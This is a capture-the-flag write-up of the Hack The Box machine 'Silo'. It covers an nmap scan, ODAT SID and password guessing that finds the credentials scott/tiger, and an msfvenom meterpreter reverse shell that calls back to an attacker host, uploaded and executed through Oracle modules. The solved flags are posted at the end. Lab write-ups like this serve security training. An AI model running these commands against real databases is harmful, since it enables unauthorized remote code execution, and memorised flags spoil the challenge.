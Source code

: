 ```yaml
---
layout: post
title:  "HTB-SILO"
tags: HTB, oracle
---
```

# HTB Silo
## Recon
```perl
Basic_10.10.10.82.nmap 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
## Exploitation: Oracle Database Attacking Tool
1. We gonna use install ODAT to query the Oracle database and find away to exploit it
```perl
https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python-dev alien python-pip
```
2. Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
```perl
X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
```
3. Generate DEB packages from rpm packages
```perl
alian --to-deb *.rpm
```
4. Install deb packages
```perl
dpkg -i *.deb
```
5. Finally we need to edit our /etc/profile and put the following PATH lines
```perl
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```
Note: Sometimes when try to run oday.py will throw an error saying that **cx_Oracle** dependency module
is missing. If that happens:
```perl
pip2 install cx_Oracle
```
![odat](https://lh3.googleusercontent.com/kp-mH-gMcOqg7zPRt9fMAl0nqg5PlOSgH9jAj25Uy9r_JYxmacaflyYhiksT-r9H3W4HF9UW-dhM0EYDhIl2MloofU2DtIIxBpdDkcDfM6TZjFf3WOvI6k_HO9Lx60QYgXlymkb0G1idb0NS2FKWCVaHpV4WubO1EO3B16RhgNt5W6QJwNvvK5kjtWzb3Rc8RcNqJ6PV2UgCtF27D838agHqTUnc7Mrrj9qdXRWMMzDBgiuiRrYKRQWYbZ7MWReTKZSKG1-FvMv1aYusvvt0sbO5pj3cV3GlQWa1R2fXTI1i7UVfr8MKWiUaGeIRSTJ4NUyI1LUKFot6GOK3c8LTFChjWD3WdyQhcJZXj_WqZoaVOWLtbhae11dglP3jOM5fkC-cEMDnYbKDHS7pFaho7YlkPvbi7FV60DU-3Xs43q9cl3TpsHKEb916ubQJmmiX7uwzHUGkunQZjaYaB3aTREp6fFxAAkvQTPqj6VtDbzG8FTJjt9S70Np_BAuIVBAyutdVSg56Qj941M4PVa9crufsyc7zDIs9SeBENvvXjA3hbVHzY-aBS4zSQEi7axL6DTDhmdh5tCdNbrPw-RYfIM_YtDzDOUrAJAJo-DONRVpThHWSBE5UMoLXs47nPxkb1jlGmpLZY2Cf8Z50MiAg9n32scPB9pVf8A1N_S977ik43jU9BPdH8Gs=w711-h348-no)


6. We start odat and we use the module **sidguesser**
```perl
python odat.py sidguesser -s 10.10.10.82 -p 1521
```
![](https://lh3.googleusercontent.com/hEq9szP50RKA_3RhEiM9xws66An6o2vLUtWFSvI9EaFKAPLeME7i-GHA5VewAYrYPwJdXvN2cu9HXMDA0NANeO4EdZqTO5-Cxjz05dgMZWTEZoexwDlIoen6SgxJoFAW-u-0XqAFIV08T_FV_OV0_JGTtYYfEl3uUmHF0n6GvZnURdYs5JJ0jBIm8Nlx6fcSkQGDMFD_v4YPruTzrcjV_VexGSGIrIWJ6fQJVdL5LdN_MuWXABgFfrwalDwXgYki87PqGGY5Yq0PSL8XNtFyZ_DWdr6Ji96hOFE3hw5_81cEuPJ0nazKcrmTn5VetGD4coaOdNV-nhEXFSOaiBQp2CoHqZJtMT22Nx-Tnleij0sE0phWt5KlbtufJRIbAY4-y5WuYd-W-BmLWzVM7TbLxBZtfOenzqjr-gICND4THCrE6FhxCl2SgumXE4ktvRRJcFF5oF5BggQVta3ARwUgjyzHI7nEZMeY7jxNKg8sNeWfS1M8qNuwa9VxfBiRRPR7C7r7K0MeBJwrrlTiIKPxUS-hdvG1LE21wW5zsWeGKwKCnSGFe-XEAEfUE2jcGUpyI0UF6BraPNx0043g-U5yizWaDweFyl0xIn8vJD6mOeZbLgYsxEmOnSSkDFi1aG7qli-iZpgnaclN9t2NLmjG_omUa8WRj0aMBjhRygZ9ZJo_TvEyNesml4s=w590-h461-no)

7. Sidguesser returns two potential valid SID: **XE,XEXDB**
![](https://lh3.googleusercontent.com/h3yksJJBLdywJSs0XC-D4VtOi6Z9pZuwvefCbY44hZb1B3o3zeZQPv4Oxjuk6-y_KRrACC1BRdDkM9ly5M3mB9pKnxNrEihlyMwo-xwYGOXezUbtXrJjP4OvX8arAaZyKo52votOF_dJIkKcn_jA5gofm49l7UNt0ojOupsPmm8Hxxpf8-_aG4HF1bHKZnXE4txvB9ziIXOhze0IKhVQOMOlkRK1P6d35X4gR4t-7R1BEIuXFe2ddk0bCQYkcN64NMWVZNU4WRjrBL5KAxcakCjjaA68M4JLO2q7XeOOj_RskZsMX7Uz2luqUe-qAasA7Up8K3t1rr5yZDWeG2_mNomNX56EpOBHW8w5qAWYjQT_EbWOj64tzWEcACu23pecqQYEQw0K01l7IFHs6oU88OyrSta-B_KPYg7OOheH-JGV2LQvYite3zi6CDoTgU8cP98dTZrvpVBipIkrtlmF88G6RsNnsualTZb94BLIPiVw94Oropz9XlzHivG0QuNHOxkcIaRKIeLSfSFRmKxuukx3npQ2ZnNsliZO6XoWkCQLeXhKta1Glf9wjDCvfmhA0F5ismu1RtljeEMKzqnz_WB_sJcnp-6vKSTSMnn9Laxa9QCoOkvAXv3W6qRNFMNmLWyOFyxmkvILHxl6VABeYijVOhcDAas3IjgYN-ZUbbnVEsfJlVM-ZjE=w913-h289-no)

8. Time to get some creds by usin passwordguesser
```perl
python odat.py passwordguesser -s 10.10.10.82 -d XE
```
```perl
Valid credentials found: scott/tiger.
```
![](9https://lh3.googleusercontent.com/SqWEOd29qiiLEfqNhbm6GArlECaBiC7tjlbtjcsHQWmxNjOBPvLqgVkp-b9XFZcmZYTUFZVt_xVdxRFY98PuwPW02G8JjVlS5ZwpmBP6hxkhCi5yxw4-EEcwZpAaBRNXaAs4n8nHkb6BI6phb1ma79ak8el3O_Xu2BzMzUXgidNR-4WVnj4pE9zqr_Plu-6r3A8bBAtsq4lRGj2kqFZEfd8oME19tDW-qH9jkhrfvgeWomlotbqdpRYdW_rZVih9P007__BtsKIdQ7an6TQT3JZc0J_uoK7zDF40A32jgMUwN9R4Dph1M-wn-qdRQ_A3XkWtyVvKyl6o7xVJje-Z63nDb26ADPUfG4oQr4FVPqYXrQsgPhV9U2hMessEU4JcdAWUj0Mzh1qOfZKoDS1mg4r-dinuI-_dMVIV2SyuRR6pbqzG7T3T8P9PQYbctWuDF0uPGOXe4-V4l6n2W2YPSzhSnnyP-UNORVFOAxRy4M6ALuktnRHx4yz2GAECy5y6PLr6dHTNrWYMUnE7QRfcXfxeYtyS5n0pxLUwb7N74GOdA0vt3Rrr9zUjh-TJoLM3pns6b-EakA7cD_DFDY3b9VCHxeqnW6GoZhGAvyiKUH7KLJqt4kqqHX-YVcN6hrCRmVBroUMXo76sIaNOcWGRKjMvIngIBndjp4QLfR-3QUxV1DhC4Zhj8uo=w975-h232-no)

9. We gonna use the utlfile module to upload a reverse shell using msfvenom
```perl
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=9999 -f exe -o evil.exe
python odat.py utlfile --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --putFile /temp evil.exe /root/
Desktop/evil.exe
```

10. Then we gonna exec our shell using the **externaltable** module from odat
python odat.py externaltable --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --exec /temp evil.exe

![](https://lh3.googleusercontent.com/-Krzjvbkc06_U7GE4sEFeTFClz5_kt8Ie7Hi0LStMElArvHcNhpuZtbDkGu-nadCXMPh_rLKZr58iGW9-oW1Ui5x-D2X-JRvLWbT6vxnYZe1BuUubrIG7pLrFBdEig1t6_mVRyRVVnNe7RnTgA37Quwq4TnElNDkbd_ESNCqZMZqQexS1YoURhWjKweTRfvKcCtLlJDnBxqLzUQBml82UDxszENpoOhIqYrXZnTWRPmIPCrp0SwYykZBuEmNS5dz8HDm4UHX1msHIJ3IRIAEZlIr6es14LvJYKE7NDWC0M1_FwlNgxM1aBzG_CrzJw5ibLN5a2CdM76WJ_aBsalnXKGu-p0mDhImhTwdScCNBaODY-6UsZenOipkt430ODG5KQkD6QAWBVJiWF-dH2IjP5gyfl1luPudYs2zLrL6El0w7CsvsSreK7zXyrh0jgkt8xFwGLSlJ1zADEqEJrmQjdHv9Bn1xRPkCX1fYANyZuT1mO6QTAQW-JX1qcxIWDO887zFw-O7rvgV-zGFBrAa8_JjBnIIpxMKWvaqW2ZuO865oPaxqWRo--eo0poyYxOt5frVK58F7mYrMeIfMr4U4t1l7cu7GBvrgze_iDA1uD1KIOLrmHnVrFjT5jH05XvZmoOmCczrnhijMLhsYYoo_blP-VNrJ2wpy3vPD04PK775cAw2NSAxXu4=w1265-h97-no)

![](https://lh3.googleusercontent.com/pV9ug_tfK2HYY-T-BDqI7nH00U4_nbGp4FbrbUNdFdij8xqFrI-Npm3kjOWBJ2i4se3wVUSsTZXS7Gp-Dmkf-VXaTPKQ-JXSGlfoDHOcMrDLM0-25F4M94r2pxf_VZpC52ijsA8QL1x6qNXgUGq8mX-XEfRY-PNU_SRoRBOugvTdv-Jwd7wPdSTjwVJOnCKvie-cDIhMKkivsI3bMO_4yc2L7_MighBeG-66DUXt3wQC8N4l4COTUf_3QpsBHXhqc7C2hcLJq5Xb72LJXAOU-v_rY5rVn2FLNcCqIE2Xi7fx79Vd0p3s1A0bWkeZHC1Al4ylneTEGVDvRtpSY-XpX2M1bK0g-rTLBlk6r34fgtClw3bJAuknHdDQnwQf_bBTd_NGruquONYqdzrfQGrW1xX2OoP2wJjBPLD2UaajZ-c_D0NCQo_s_LkJYfT-C_vFz0Y8Y_UG5dWglkn1kBBm3PAuXg0qcJgs-oqqnN66ECPQUL4oa1TOM5k6oRlu-jH8CMW7oKqbYZLdosWPP4gN8-HzvocD6qbc4Rto6p-FBe6mRcnwnzdIsS82UzY2zirGwVVjUfb3MUK3Fg2ttpgh2-l3BvZlh0rQ4WlGROG5NMr1t1nfCh5bnjhM80ahdGxn-GP5K8eSN87hNMF5Gvr7O91C8zXhS4PlCnBJZ_DOzg2G5FwPpyMs8PI=w1157-h80-no)

11. Finally we got root shell.

![](https://lh3.googleusercontent.com/YEib8--SF8_5x82BeuFNISJXM1Bu2nkY3YID88KZJ-ASnDqkv-0CV9Kq1CzppMB1ClBhEKvYZtSd2TxSSpRe_fucOD7HSvdLYbMpgXDIXclu4AyprmILXdGZ5Ld8Ts-nlkXLoAt4p43nDPNOhDGvofUL8YcFt466s2dFdMUWibdAS6K8G7HaqwoGjAOFDl0Q8WCFUFZOvpF13MU1g6NLQPwLeyY_F2Sortd389ziUue459wPSfPulKuTv1tgIBX1-vH6uams9C9f7goPagNsaxJqpNqhuNfmfVgxievovLzzHVdqR9_phE1Vil8M2HCbHKASmXoRJz_Yw_a9XEfuyKXRiEkUVGzbw_To4GCW8U13kD9LSHGpJKXvR2AjQo5dohAwmhRsvrpJ6uqcjlCA2pVFulpmOFeUboz_STHeutqitH154hghJAz47YSo8HRwxg2XUgcxgiDFJyYZfP5s3UY6WesWhNO_yAOv9j2D9OFwUZyxw7j1bENy72e4Rd_Ch9neRyqIea7Vke2ysOzAqj9JJdYKqzPpwYWXtx4WnHHmXU8NCQP3stMXaJwa0orkGqk504IvTR-mtT981vETpcTUrucc6tAK7x5adTHwpal_0PrC9l8mlM5369mNWp7LUnoM0KgwD2Et6NKGxyLH5KBgaClT1_FVKuB3k91Vt6Hdy1GIWdeW6YE=w724-h159-no)

|FLAGS| HASH|
|--------------|-----------|
| ROOT | cd39ea0af657a495e33bc59c7836faf6 |
| USER | 92ede778a1cc8d27cb6623055c331617 |

FLAGS
```ruby
ROOT : cd39ea0af657a495e33bc59c7836faf6 
USER : 92ede778a1cc8d27cb6623055c331617
```




